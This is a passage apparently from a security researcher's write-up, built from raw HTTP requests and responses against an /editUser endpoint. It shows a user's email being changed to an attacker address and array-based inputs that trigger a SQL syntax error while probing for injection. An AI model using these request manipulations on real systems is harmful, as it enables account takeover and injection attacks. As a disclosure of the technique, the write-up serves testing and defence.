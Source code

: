 ```http
```

### Response

```http
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: * 
Content-Type: application/json; charset=utf-8 
Set-Cookie: blah...blah...blah...; Path=/; HttpOnly 
X-Frame-Options: SAMEORIGIN 
X-Content-Type-Options: nosniff 
X-XSS-Protection: 1; mode=block 
Referrer-Policy: strict-origin-when-cross-origin 
Connection: close 
Strict-Transport-Security: max-age=31536000; includeSubDomains

{
  "user_Id": "2abaac0a-4af8-4101-a763-9d0229cafb12",
  "email": "attacker@thevillagehacker.com",
  "Mobile": "9874563217",
  "role": "Analyst",
  "isActive": true
}
```

The response contains the user's details, including the updated email address.

### SQL Injection

Attempts to exploit SQL injection vulnerabilities on the application were unsuccessful. However, this new array method shows potential for further exploration.

When special characters and spaces are added as input in the array, the server responds with a SQL syntax error.

### Request

```http
POST /editUser HTTP/2
Host: abc.com
Cookie: blah....blah...
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Csrf-Token: csrf_token_value
Referer: https://abc.com/dashboard
Content-Length: 534
Origin: https://abc.com
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

{
  "user_Id": "2abaac0a-4af8-4101-a763-9d0229cafb12",
  "email": [
    "naveenj@thevillagehacker.com",
    " "
  ],
  "Mobile": "9874563217",
  "role": "Analyst",
  "isActive": true
}
```